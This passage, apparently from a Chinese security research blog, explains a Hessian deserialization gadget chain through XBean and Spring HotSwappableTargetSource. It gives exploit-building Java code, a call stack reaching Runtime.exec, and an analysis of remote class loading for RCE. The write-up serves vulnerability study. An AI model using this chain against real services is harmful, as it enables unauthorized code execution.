        String classname = "org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding";
        Object readOnlyBinding = Class.forName(classname).getDeclaredConstructor(String.class, Object.class, Context.class).newInstance("aaa", ref, writableContext);

        // 创建XString
        XString xString = new XString("bbb");

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(readOnlyBinding);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(xString);

        //创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "111");
        hashMap.put(targetSource2, "222");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/XbeanHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/XbeanHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }
}
```

#### 函数调用栈

```plain
exec:347, Runtime (java.lang)
<init>:6, test
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
resolve:73, ContextUtil (org.apache.xbean.naming.context)
getObject:204, ContextUtil$ReadOnlyBinding (org.apache.xbean.naming.context)
toString:192, Binding (javax.naming)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
equals:104, HotSwappableTargetSource (org.springframework.aop.target)
putVal:634, HashMap (java.util)
put:611, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:538, SerializerFactory (com.caucho.hessian.io)
readObject:2110, Hessian2Input (com.caucho.hessian.io)
main:58, XbeanHessian (org.dili.hessian)
```

#### 详细分析

**第一步**

Hessian 中 readObject 流程依旧没有变，触发点为 MapDeserializer.readMap 方法的第二次循环

**第二步**

进入第二个 HotSwappableTargetSource 对象的 equals 方法，调用第二个对象 target 属性的 equals 方法，传入的参数为第一个对象的 target 属性

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205735-22655458-c426-1.png)

**第三步**

在 XString 的 equals 方法中，会调用参数的 toString 方法，根据链子，这里将其设置为 ContextUtil$ReadOnlyBinding 对象，它继承了 Binding 类，因此会调用父类的 toString 方法，进入该方法

```plain
public String toString() {
    return super.toString() + ":" + getObject();
}
```

调用该对象的 getObject 方法

```plain
public Object getObject() {
    try {
        // 关键点
        return ContextUtil.resolve(this.value, this.getName(), (Name)null, this.context);
    } catch (NamingException var2) {
        throw new RuntimeException(var2);
    }
}
```

这里需要利用 ContextUtil 的 resolve 方法，查看该方法，观察传入的参数应该是什么？

```plain
public static Object resolve(Object value, String stringName, Name parsedName, Context nameCtx) throws NamingException {
    if (!(value instanceof Reference)) {
        return value;
    } else {
        Reference reference = (Reference)value;
        if (reference instanceof SimpleReference) {
            try {
                return ((SimpleReference)reference).getContent();
            } catch (NamingException var6) {
                throw var6;
            } catch (Exception var7) {
                throw (NamingException)(new NamingException("Could not look up : " + stringName == null ? parsedName.toString() : stringName)).initCause(var7);
            }
        } else {
            try {
                if (parsedName == null) {
                    parsedName = NAME_PARSER.parse(stringName);
                }

                // 关键点
                return NamingManager.getObjectInstance(reference, parsedName, nameCtx, nameCtx.getEnvironment());
            } 
            // ...
        }
    }
}
```

这个方法调用了 NamingManager.getObjectInstance 方法，这和 Resin 链后半部分是一样的，因此这里也是加载远程的恶意类导致 RCE。根据上一条链，这里传入的 reference 即是构造的包含恶意 URL 的实例化 Reference 对象，它是通过 value 参数传入进来的

回到 ContextUtil$ReadOnlyBinding 对象的构造，需要将 value 属性设置为构造的 Reference 对象，同时 context 属性需要是 Context 子类的实例化对象，因为在 resolve 方法中传入的参数就是 Context 对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205205751-2b61e422-c426-1.png)

后面的链不再重复，和 Resin 后半部分一样

#### 其他

这里套用了一层 HotSwappableTargetSource 后，目的是为了绕过 HashMap 中 putVal 方法中到达 equals 方法前的两个条件，其实 Resin 链也可以这么做。

如果不借用 HotSwappableTargetSource，通过 hash 逆求解得到 Xtring 后，在 exp 中的 HashMap 的 put 操作时能够满足条件，导致 RCE，但是在反序列化的时候无法触发执行，并且调试后发现 p.hash==hash 过不了，原因未知

## 总结

本文详细描述了 Hessian 链的相关利用及 exp 构造的每一步解释，对于每一条通过分析构造 EXP 的过程非常有意思。代码：[Java-Sec](https://github.com/DiliLearngent/Java-Sec)

Dubbo 是一个开源的高性能、轻量级的分布式服务框架，最初由阿里巴巴集团开发并开源。它旨在提供可靠的远程服务调用和服务治理的解决方案，支持高性能和低延迟的分布式服务调用。Dubbo 支持多种网络通信协议，包括 RPC（默认）、HTTP 和 Hessian。这使得 Dubbo 可以适应不同的应用场景和技术栈。针对 Hessian 协议，Dubbo 历史版本存在漏洞，下一步将对这些历史漏洞进行详细分析，了解 Hessian 的实际应用产生的漏洞。
